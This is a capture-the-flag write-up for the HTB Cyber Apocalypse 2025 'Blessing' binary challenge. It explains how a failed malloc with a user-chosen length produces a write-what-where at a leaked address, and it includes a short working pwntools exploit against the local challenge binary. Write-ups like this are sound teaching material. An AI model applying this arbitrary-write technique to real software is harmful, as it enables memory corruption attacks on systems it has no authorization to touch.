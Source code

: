 ```yaml
---
title: "Blessing 🙏✨ – Logic Bug Exploit via Failed malloc (HTB Cyber Apocalypse 2025)"
tags: [CTF, binary exploitation, logic bug, write-what-where, pwn]
---
```


# Blessing 🙏✨

![pwntools](https://img.shields.io/badge/pwntools-✔️-brightgreen)
![Difficulty](https://img.shields.io/badge/difficulty-Easy-blue)
![Category](https://img.shields.io/badge/category-Pwn-orange)
![CTF](https://img.shields.io/badge/Event-HTB%20Cyber%20Apocalypse%202025-purple)

In the realm of Eldoria, where warriors roam, The Dragon's Heart they seek, from bytes to byte's home.  

Through exploits and tricks, they boldly dare, To conquer Eldoria, with skill and flair.

## Initial Inspection 🕵️ 

Let’s begin by checking the binary protections:

![checksec output](https://github.com/user-attachments/assets/7fb9eb67-543f-458d-a06c-f1bfeb03eaf8)

Then we dive into Ghidra:

![Ghidra](https://github.com/user-attachments/assets/d88da6e0-f317-4df6-a742-15fe72d10433)

### Key observation 🔍 

- `local_20` is initialized with a large `malloc(0x30000)` — this means it's **mmaped**, not on the regular heap.
- A `1` is written at the start of the mmaped chunk.
- The binary **leaks** the address of this mmaped region.
- The condition to win the challenge is: **erase that `1` and replace it with a `0`**.

After that, the binary:
- Asks for a “song size” → `malloc` with user input.
- Asks for the song content.

But here's the trick — the actual song content doesn’t matter.

## Vulnerability 🧠 

What matters is this line in the code:

```
*(undefined8 *)((long)local_18 + (local_30 - 1)) = 0;
```
### Breakdown:
    
- `local_18` = pointer returned by malloc
- `local_30` = user-supplied length
- The binary writes a `0` at: `local_18 + local_30 - 1`

At first, I thought: *"I just need to malloc a large chunk that gets mmaped and place it just before `local_20` to overwrite its first byte."*

I tried that approach for a while… but never managed to get closer than ~24 bytes. Turns out, due to how **mmap vs heap allocations, page alignment,** and general memory layout work, **that strategy wasn’t feasible.**

I then looked for other things I could overwrite — either in the heap or mmap area — but nothing useful surfaced.

Honestly, I was stuck for a while... until I had a small epiphany:

## The Revelation 💡 

Then it hit me. What if I asked for a **huge, invalid allocation**, like `0xFFFFFFFF`?

- `malloc()` fails
- `local_18` == NULL
- `local_30` == `0xFFFFFFFF`
- The binary attempts to write a `0` at: `NULL + 0xFFFFFFFF - 1 = 0xFFFFFFFE`

Now, **if we set the malloc size to be equal to the leaked address + 1**, then:

- `malloc(leak + 1)` fails
- `local_18 == 0`
- `local_30 == leak + 1`
- Write occurs at: `0 + leak + 1 - 1 = leak` → boom 💥

We overwrite the `1` at the beginning of the mmaped chunk with a `0` and trigger the win.

## Exploit 🎯

Here's the minimal working exploit:

```
from pwn import *

io = process("./vuln")

io.recvuntil(b"accept this: ")
leak = int(io.recv(14), 16)

# Send length = leak + 1 to land the write at the leak address
io.sendlineafter(b"length:", str(leak + 1).encode())
io.sendafter(b"song:", b"0")  # content doesn't matter

print(io.recvall())
```
(No fancy CLI or remote options — just straight to the win.)

![Challenge solved - flag output](https://github.com/user-attachments/assets/6f37ba71-2977-45fe-b51f-01f7aee406d3)

Pwned! 🙏✨

## Conclusion 🧠

This challenge looked deceptively simple, but it required understanding:

- The difference between malloc and mmap allocations
- What happens when malloc fails
- Subtle memory arithmetic (NULL + user-controlled offset)
- A clean "write-what-where" scenario without any classic overflow

Sometimes, all it takes is one invalid malloc() to take down a dragon. 🐉✨
